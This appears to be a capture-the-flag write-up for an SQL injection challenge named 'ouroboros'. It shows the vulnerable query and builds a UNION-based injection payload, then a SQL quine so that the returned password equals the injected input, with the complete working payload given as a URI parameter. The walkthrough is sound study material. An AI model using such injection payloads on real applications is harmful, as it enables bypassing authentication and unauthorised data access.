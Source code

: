 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34),char(39)),char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine', 
char(34), 
char(39)
)
-- - , char(36), 'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\') AS Quine'
-- - , char(36), 'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',char(34),char(39)),char(36),'$') AS Quine', 
char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34),char(39)),char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34), char(39)), char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34), char(39)), char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char( 39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace('$',char(34),char(39)),char(36),'$')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
' UNION SELECT 
\'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will return the following text:

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/59ddb32a-fb39-4ff9-8bb3-74dc33119083)
